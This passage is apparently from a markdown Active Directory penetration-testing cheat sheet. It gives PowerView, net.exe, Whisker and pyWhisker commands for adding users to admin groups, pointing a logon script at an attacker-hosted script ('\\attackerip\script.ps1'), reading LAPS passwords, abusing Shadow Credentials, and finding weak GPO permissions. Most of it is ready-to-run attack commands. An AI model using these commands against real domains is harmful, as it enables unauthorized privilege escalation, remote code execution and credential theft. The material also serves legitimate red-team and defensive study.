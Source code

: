 ### Add Users to Group
This command will add specific principal to a group that exists in the domain. _Note that there are several tools to perform this. Below are some of the methods that can be used. Checkout this cool tool [bloodyAD](https://github.com/CravateRouge/bloodyAD)_
```powershell
# PowerView
Add-DomainGroupMember -Identity cadmins -Members lowpriv

# net.exe
net.exe group 'cadmins' lowpriv /add /domain
```

### Overwrite Logon Script
Logon Script will run everytime user logged in._(note: use ad module)_
```powershell
Set-ADObject -SamAccountName  -PropertyName scriptpath -PropertyValue "\\attackerip\script.ps1"
```

### Read LAPS
This will only possible if you have _AllExtendedRights_ permission on a computer object.
```powershell
# PowerView
Get-DomainComputer -Properties ms-mcs-admpwd
Get-DomainComputer -LAPS
```

### Shadow Credentials
There is an attribute called `msDS_KeyCredentialLink` where raw public keys can be set. When trying to pre-authenticate with PKINIT, the KDC will check that the authenticating user has a matching private key, and a TGT will be sent if there is a match. The attribute could be controlled if the controlled account has a privilege to write on the account attributes. 
```bash
# Whisker
Whisker.exe add /target:lowpriv /domain:range.net /dc:192.168.86.182 /path:cert.pfx /password:"pfx-password"

# pyWhisker (list certificates)
py pywhisker.py -d "range.net" -u "rangeadm" -p "Password123" -t "lowpriv" --action list

# pyWhisker (modify msDS-KeyCredentialLink)
py pywhisker.py -d "range.net" -u "rangeadm" -p "Password123" -t "lowpriv" --action add
```

Once you have obtained the certificate, it can further use the [Pass-The-Certificate](#pass-the-certificate) attack to authenticate. 

> [!References]
>- https://pentestlab.blog/2022/02/07/shadow-credentials/
>- https://www.thehacker.recipes/ad/movement/kerberos/shadow-credentials
>- https://github.com/ShutdownRepo/pywhisker
>- https://github.com/eladshamir/Whisker

# Weak GPO Permission
### Enumerate weak GPO Permission
```powershell
# Domain wide
Get-NetGPO | %{Get-ObjectAcl -ResolveGUIDs | ? {$_.activedirectoryrights -match "GenericWrite|AllExtendedWrite|WriteDacl|WriteProperty|WriteMember|GenericAll|WriteOwner"}}

# specific user (based on user's sid)
Get-DomainGPO | %{Get-ObjectAcl -ResolveGUIDs -Name $_.Name | ? {$_.ActiveDirectoryRights -match "GenericWrite|AllExtendedWrite|WriteDacl|WriteProperty|WriteMember|GenericAll|WriteOwner" -and $_.securityidentifier -match "<userssid>"}}
```